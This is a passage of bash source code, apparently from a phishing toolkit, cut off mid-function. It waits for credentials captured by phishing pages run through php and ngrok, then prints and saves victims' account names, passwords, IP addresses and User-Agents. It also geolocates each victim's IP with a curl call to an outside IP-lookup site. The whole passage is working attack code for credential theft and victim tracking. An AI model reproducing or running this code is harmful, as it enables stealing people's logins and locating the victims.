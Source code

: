 catch_cred() {

account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password
cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server
pkill -f -2 php > /dev/null 2>&1
pkill -f -2 ngrok > /dev/null 2>&1
exit 1

}

getcredentials() {
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred

fi
sleep 1
done 


}

catch_ip() {
touch sites/$server/saved.usernames.txt
ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Victim IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m %s/saved.ip.txt\e[0m\n" $server
cat sites/$server/ip.txt >> sites/$server/saved.ip.txt


if [[ -e iptracker.log ]]; then
rm -rf iptracker.log
fi

IFS='\n'
iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
IFS=$'\n'
continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
printf "\n"
hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
if [[ $hostnameip != "" ]]; then
printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip
fi
##
